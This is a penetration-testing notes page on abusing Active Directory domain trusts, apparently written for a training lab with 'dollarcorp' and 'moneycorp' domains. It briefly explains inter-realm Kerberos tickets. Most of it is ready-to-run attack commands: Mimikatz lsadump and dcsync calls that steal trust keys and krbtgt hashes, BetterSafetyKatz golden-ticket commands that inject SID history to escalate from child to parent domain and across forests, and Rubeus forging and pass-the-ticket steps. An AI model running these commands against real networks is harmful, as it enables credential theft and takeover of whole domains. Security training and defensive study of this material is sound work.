 # Trusts

## Trust Flow

The Diagram below shows how Client from trusted domain can ask for access to other Domain's service.\\

We can see that in order to allow access to the service hosted on Domain B, a TGT is returned within a TGS-REP signed with the Inter-Realm Trust Key.

<img src="../../.gitbook/assets/file.excalidraw (2).svg" alt="" class="gitbook-drawing">

## Exploitation

It is possible to exploit the TGS REQ (marked red in the diagram above) by forging new TGT using the trust key. (SIDHistory)

### Get the trust key

The trust key is required to forge the Inter-Realm TGT.

```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'
```

### Forge the Inter-Realm TGT

Note that krbtgt can be used instead of the trust key.

{% code overflow="wrap" %}
```powershell
# Child to parent 
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:<current_domain_sid> /sids:<sid_to_inject> /rc4:<trust_key> /service:krbtgt /target:moneycorp.local /ticket:C:\AD\Tools\trust_tkt.kirbi" "exit"

# Using krbtgt hash - No need to request for tgs later
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"

# Across Forest
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /rc4:2756bdf7dd8ba8e9c40fe60f654115a0 /service:krbtgt /target:eurocorp.local /ticket:C:\AD\Tools\trust_forest_tkt.kirbi" "exit" 
```
{% endcode %}

| Options   | Description                                      |
| --------- | ------------------------------------------------ |
| /domain:  | FQDN of the current domain                       |
| /sid:     | SID of the current domain                        |
| /sids     | SID to be injected to the SID history            |
| /rc4:     | RC4 of the trust key                             |
| /krbtgt:  | krbtgt hash can be used instead of the Trust Key |
| /user:    | User to impersonate                              |
| /service: | Target service in the parent domain              |
| /target:  | FQDN of the parent domain                        |
| /ticket   | Path to save the ticket                          |

{% code overflow="wrap" %}
```powershell
# Same can be done with Rubeus
Rubeus.exe evasive-silver /service:krbtgt/dollarcorp.moneycorp.local /rc4:<hash> /sid:<sid> /sids:<sids> /ldap /user:Administrator /nowrap
```
{% endcode %}

### Request the TGS and pass it

{% code overflow="wrap" %}
```powershell
# Forge the ticket
Rubeus.exe asktgs /service:cifs/mcorp-dc.moneycorp.local /dc:mcorp-dc.moneycorp.local /ptt /ticket:C:\AD\Tools\trust_tkt.kirbi
```
{% endcode %}

After that any attack can be performed according to the service requested.
